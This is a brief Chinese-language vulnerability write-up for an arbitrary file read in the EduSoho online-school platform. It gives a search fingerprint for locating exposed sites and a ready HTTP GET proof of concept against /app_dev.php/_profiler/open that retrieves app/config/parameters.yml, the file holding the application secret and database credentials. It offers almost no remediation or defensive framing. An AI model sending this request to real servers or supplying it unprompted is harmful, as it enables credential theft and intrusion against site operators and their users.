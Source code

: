 # EduSoho 教培系统 app_dev.php 任意读取漏洞

## 漏洞描述

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。

通过向 /app_dev.php/_profiler/open 端点发送可以读取到 app/config/parameters.yml 文件的内容，拿到该文件中保存的 secret 值以及数据库账号密码等敏感信息。

## 漏洞影响

EduSoho 教培系统

## 网络测绘

```
"Powered By EduSoho"
```

## 漏洞复现

登录页面

![image-20231115095857573](images/image-20231115095857573.png)

指纹

![image-20231115095301932](images/image-20231115095301932.png)

poc

```
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![image-20231115095838331](images/image-20231115095838331.png)